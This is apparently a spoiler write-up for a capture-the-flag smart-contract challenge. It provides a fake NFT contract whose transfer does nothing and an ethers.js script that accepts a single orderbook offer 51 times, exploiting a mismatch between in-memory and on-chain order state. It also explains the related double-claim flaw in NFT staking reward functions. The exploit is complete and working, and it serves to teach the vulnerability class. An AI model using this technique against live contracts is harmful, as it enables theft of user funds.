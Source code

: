 # SPOILER

A simple dummy NFT that won't change ownership is needed.

```js
contract AttackNFT {
    address owner;

    constructor() {
        owner = msg.sender;
    }

    function ownerOf(uint256) external view returns (address) {
        return owner;
    }

    function transferFrom(
        address from,
        address to,
        uint256 tokenId
    ) external {
        //
    }
}
```

Then, an order can be placed for this NFT.

```js
[attacker, accomplice] = await ethers.getSigners();
const nft = await (await ethers.getContractFactory('AttackNFT', attacker)).deploy();

await orderbook.connect(accomplice).placeOffers([nft.address], [0], [ethers.utils.parseEther('1.25')], {
  value: ethers.utils.parseEther('1.25'),
});

const hash = await orderbook.getOfferHash(accomplice.address, nft.address, 0);
await orderbook.connect(attacker).acceptOffers(Array(51).fill(hash));
```

This order can be accepted multiple times, because there is a mismatch between
the orders stored in memory and the ones on-chain. In this case, the order value `price`
is being used to "block" future (profitable) fillings of the order. If this were directly
read from the contract state, this vulnerability would not be possible.

My experience so far mainly comes from looking at NFT contracts.
In particular, I've seen many staking contracts fall prey to this attack.

Often, there exists a `claimRewards(uint[] calldata tokenIds)` function
that first calculates the rewards in a loop and then afterwards, in another,
`lastClaimed[tokenId] = block.timestamp` is set.
Here, also, because of unexpected user-input, the rewards can be claimed multiple times.

This challenge combined this idea with the slight twist, that a non-standard NFT contract
must be used in order to bypass the ownership-check.
